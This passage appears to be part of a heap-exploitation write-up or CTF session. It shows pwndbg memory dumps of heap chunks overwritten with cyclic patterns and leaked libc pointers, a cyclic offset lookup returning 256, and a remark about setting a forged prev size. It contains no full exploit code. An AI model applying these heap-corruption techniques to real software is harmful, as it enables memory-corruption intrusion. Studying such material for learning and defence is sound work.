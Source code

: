 0x183f4b0:	0x6363636363636363	0x6363636363636363
0x183f4c0:	0x6363636363636363	0x6363636363636363
0x183f4d0:	0x6363636363636363	0x6363636363636363
0x183f4e0:	0x6363636363636363	0x6363636363636363
0x183f4f0:	0x6363636363636363	0x6363636363636363
0x183f500:	0x6363636363636363	0x6363636363636363
0x183f510:	0x6363636363636363	0x6363636363636363
0x183f520:	0x0000000000000140	0x0000000000000020
0x183f530:	0x6464646464646464	0x6464646464646464
0x183f540:	0x0000000000000000	0x00000000000209e1
0x183f550:	0x0000000000000000	0x0000000000000000
0x183f560:	0x0000000000000000	0x0000000000000000
0x183f570:	0x0000000000000000	0x0000000000000000
pwndbg> ni
pwndbg> x/90gx 0x183f2c0-0x10
0x183f2b0:	0x0000000000000000	0x0000000000000131
0x183f2c0:	0x6161616161616161	0x6161616161616162
0x183f2d0:	0x6161616161616163	0x6161616161616164
0x183f2e0:	0x6161616161616165	0x6161616161616166
0x183f2f0:	0x6161616161616167	0x6161616161616168
0x183f300:	0x6161616161616169	0x616161616161616a
0x183f310:	0x616161616161616b	0x616161616161616c
0x183f320:	0x616161616161616d	0x616161616161616e
0x183f330:	0x616161616161616f	0x6161616161616170
0x183f340:	0x6161616161616171	0x6161616161616172
0x183f350:	0x6161616161616173	0x6161616161616174
0x183f360:	0x6161616161616175	0x6161616161616176
0x183f370:	0x6161616161616177	0x6161616161616178
0x183f380:	0x6161616161616179	0x626161616161617a
0x183f390:	0x6261616161616162	0x6261616161616163
0x183f3a0:	0x6261616161616164	0x6261616161616165
0x183f3b0:	0x6261616161616166	0x6261616161616167
0x183f3c0:	0x6261616161616168	0x6261616161616169
0x183f3d0:	0x626161616161616a	0x626161616161616b
0x183f3e0:	0x3131313131313131	0x0000000000000141
0x183f3f0:	0x00007f8ff4af8b78	0x00007f8ff4af8b78
0x183f400:	0x3131313131313131	0x3131313131313131
0x183f410:	0x3131313131313131	0x3131313131313131
0x183f420:	0x0000000000000170	0x0000000000000100
0x183f430:	0x6363636363636363	0x6363636363636363
0x183f440:	0x6363636363636363	0x6363636363636363
0x183f450:	0x6363636363636363	0x6363636363636363
0x183f460:	0x6363636363636363	0x6363636363636363
0x183f470:	0x6363636363636363	0x6363636363636363
0x183f480:	0x6363636363636363	0x6363636363636363
0x183f490:	0x6363636363636363	0x6363636363636363
0x183f4a0:	0x6363636363636363	0x6363636363636363
0x183f4b0:	0x6363636363636363	0x6363636363636363
0x183f4c0:	0x6363636363636363	0x6363636363636363
0x183f4d0:	0x6363636363636363	0x6363636363636363
0x183f4e0:	0x6363636363636363	0x6363636363636363
0x183f4f0:	0x6363636363636363	0x6363636363636363
0x183f500:	0x6363636363636363	0x6363636363636363
0x183f510:	0x6363636363636363	0x6363636363636363
0x183f520:	0x0000000000000140	0x0000000000000020
0x183f530:	0x6464646464646464	0x6464646464646464
0x183f540:	0x0000000000000000	0x00000000000209e1
0x183f550:	0x0000000000000000	0x0000000000000000
0x183f560:	0x0000000000000000	0x0000000000000000
0x183f570:	0x0000000000000000	0x0000000000000000
pwndbg> cyclic -n 8 -l haaaaaab
256
```
test it, also set the correct prev size
```